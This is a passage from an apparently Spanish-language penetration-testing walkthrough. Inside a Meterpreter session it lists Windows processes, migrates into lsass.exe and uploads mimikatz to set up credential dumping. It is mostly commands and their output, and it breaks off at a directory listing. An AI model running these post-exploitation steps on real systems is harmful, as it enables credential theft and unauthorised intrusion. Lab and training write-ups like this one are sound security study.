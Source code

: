 ```bash
 464   372   winlogon.exe       x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\winlogon.exe
 476   364   lsass.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsass.exe
 484   364   lsm.exe            x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\lsm.exe
 592   428   svchost.exe        x64   0        NT AUTHORITY\SYSTEM
 668   428   svchost.exe        x64   0        NT AUTHORITY\NETWORK SERVICE
 728   428   svchost.exe        x64   0        NT AUTHORITY\LOCAL SERVICE
 756   464   LogonUI.exe        x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\LogonUI.exe
 816   428   svchost.exe        x64   0        NT AUTHORITY\SYSTEM
 864   428   svchost.exe        x64   0        NT AUTHORITY\LOCAL SERVICE
 900   428   svchost.exe        x64   0        NT AUTHORITY\SYSTEM
 1036  428   svchost.exe        x64   0        NT AUTHORITY\LOCAL SERVICE
 1128  428   svchost.exe        x64   0        NT AUTHORITY\SYSTEM
 1268  428   VGAuthService.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe
 1316  428   vmtoolsd.exe       x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
 1596  428   svchost.exe        x64   0        NT AUTHORITY\NETWORK SERVICE
 1792  592   WmiPrvSE.exe
 1972  428   msdtc.exe          x64   0        NT AUTHORITY\NETWORK SERVICE
 2460  428   sppsvc.exe         x64   0        NT AUTHORITY\NETWORK SERVICE
 2508  428   svchost.exe        x64   0        NT AUTHORITY\SYSTEM
 2584  428   SearchIndexer.exe  x64   0        NT AUTHORITY\SYSTEM
```

* Obteniendo **PID** del proceso **lsass.exe**:
```bash
meterpreter > pgrep lsass
476
```

* Migrando a este proceso:
```bash
meterpreter > migrate 476
[*] Migrating from 268 to 476...
[*] Migration completed successfully.
```

Una vez que ya hemos migrado de proceso, vamos a cargar el programa de **mimikatz.exe**, este programa esta por default en **Kali**:
```bash
meterpreter > upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
[*] Uploading  : /usr/share/windows-resources/mimikatz/x64/mimikatz.exe -> mimikatz.exe
[*] Uploaded 1.29 MiB of 1.29 MiB (100.0%): /usr/share/windows-resources/mimikatz/x64/mimikatz.exe -> mimikatz.exe
[*] Completed  : /usr/share/windows-resources/mimikatz/x64/mimikatz.exe -> mimikatz.exe
meterpreter > dir
Listing: C:\
============

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
040777/rwxrwxrwx  0        dir   2017-07-21 01:56:27 -0500  $Recycle.Bin
040777/rwxrwxrwx  0        dir   2022-02-18 09:11:31 -0600  Config.Msi
040777/rwxrwxrwx  0        dir   2009-07-14 00:08:56 -0500  Documents and Settings
040777/rwxrwxrwx  0        dir   2009-07-13 22:20:08 -0500  PerfLogs
040555/r-xr-xr-x  4096     dir   2022-02-18 09:02:50 -0600  Program Files
040555/r-xr-xr-x  4096     dir   2017-07-14 11:58:41 -0500  Program Files (x86)
040777/rwxrwxrwx  4096     dir   2017-12-23 20:23:01 -0600  ProgramData
040777/rwxrwxrwx  0        dir   2022-02-18 08:09:14 -0600  Recovery
040777/rwxrwxrwx  0        dir   2017-07-14 08:48:44 -0500  Share
040777/rwxrwxrwx  4096     dir   2024-03-11 21:41:55 -0600  System Volume Information
```